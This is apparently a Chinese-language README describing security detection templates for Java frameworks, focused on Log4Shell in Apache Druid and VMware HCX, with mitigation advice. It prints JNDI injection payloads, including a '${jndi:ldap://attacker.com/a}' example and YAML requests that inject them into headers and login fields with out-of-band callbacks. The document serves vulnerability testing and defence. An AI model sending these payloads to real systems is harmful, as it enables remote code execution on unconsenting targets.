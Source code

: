 # Java 框架安全模板分类说明

本目录聚焦于主流 Java Web 框架及中间件（如 Spring、Struts2、Shiro、Apache Druid 等）的安全风险，涵盖远程代码执行、反序列化、信息泄露等典型漏洞，帮助安全测试人员快速定位和验证相关风险。

---

## 分类说明

- **Spring/Struts2/Shiro**：常见于企业级 Java Web 应用，风险点包括表达式注入、反序列化、权限绕过等。
- **Apache Druid**：大数据分析平台，历史上曾因集成 Log4j 等组件出现严重远程代码执行漏洞。
- **其他 Java 框架**：如 Tomcat、Jetty、Jenkins 等，常见问题为未授权访问、命令执行、配置泄露等。

---

## 典型漏洞模板举例

### Apache Druid Log4j 远程代码执行漏洞（Log4Shell）

**模板文件**：`平台/apache-druid-log4j.yaml`

#### 漏洞简介

Apache Druid 在集成受影响版本的 Log4j 组件时，存在 JNDI 注入导致远程代码执行（Log4Shell，CVE-2021-44228）风险。攻击者可通过构造恶意请求，利用 Log4j 的 JNDI 特性，在目标服务器上执行任意命令。

#### 漏洞原理

Log4j 在处理日志消息时，如果日志内容中包含 `${jndi:ldap://attacker.com/a}` 这样的字符串，会自动发起远程请求并加载恶意类，导致远程代码执行。攻击者只需将 payload 注入到日志参数（如 User-Agent、X-Api-Version 等）即可触发漏洞。

#### 检测逻辑（YAML内容解析）

```yaml
id: apache-druid-log4j

http:
  - method: GET
    path:
      - "{{BaseURL}}/druid/indexer/v1/sampler"
    headers:
      User-Agent: "${jndi:ldap://{{interactsh-url}}/a}"
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "ldap"
```

- 发送带有 JNDI payload 的请求到 Druid 相关接口。
- 通过 OOB（Out-Of-Band）平台（如 interactsh）检测是否有 LDAP 请求回连，判定目标存在该漏洞。

#### 防护建议

- 升级 Apache Druid 及其依赖的 Log4j 组件至官方修复版本。
- 禁用 Log4j 的 JNDI 功能，或限制其加载远程类的能力。
- 对所有用户输入进行严格校验，避免日志记录敏感或可控内容。

---

### VMware HCX Log4j 远程代码执行漏洞（CVE-2021-44228）

**模板文件**：`平台/vmware-hcx-log4j.yaml`

#### 漏洞简介

VMware HCX 集成了受影响版本的 Apache Log4j 组件，存在 JNDI 注入导致远程代码执行（Log4Shell，CVE-2021-44228）风险。攻击者可通过构造恶意请求，在无需认证的情况下远程执行任意命令，获取敏感信息或控制系统。

#### 漏洞原理

Log4j 在处理日志消息时，如果日志内容中包含 `${jndi:ldap://...}` 这样的字符串，会自动发起远程请求并加载恶意类，导致远程代码执行。此模板通过在登录接口的 `username` 字段注入 JNDI payload，若目标存在漏洞，将触发对攻击者控制的服务器的 DNS 或 LDAP 请求。

#### 检测逻辑（YAML内容解析）

```yaml
id: vmware-hcx-log4j

http:
  - raw:
      - |
        @timeout: 10s
        POST /hybridity/api/sessions HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json
        Content-Type: application/json
        Origin: {{BaseURL}}

        {
          "authType": "password",
          "username": "${jndi:ldap://${:-{{rand1}}}${:-{{rand2}}}.${hostName}.username.{{interactsh-url}}}",
          "password": "admin"
        }

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"
      - type: regex
        part: interactsh_request
        regex:
          - '\d{6}\.([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'
```

- 发送带有 JNDI payload 的 POST 请求到 `/hybridity/api/sessions`。
- 通过 OOB（如 interactsh）检测是否有 DNS/LDAP 请求回连，判定目标存在该漏洞。

#### 防护建议

- 升级 VMware HCX 及其依赖的 Log4j 组件至官方修复版本。
- 禁用 Log4j 的 JNDI 功能，或限制其加载远程类的能力。
- 对所有用户输入进行严格校验，避免日志记录敏感或可控内容。

---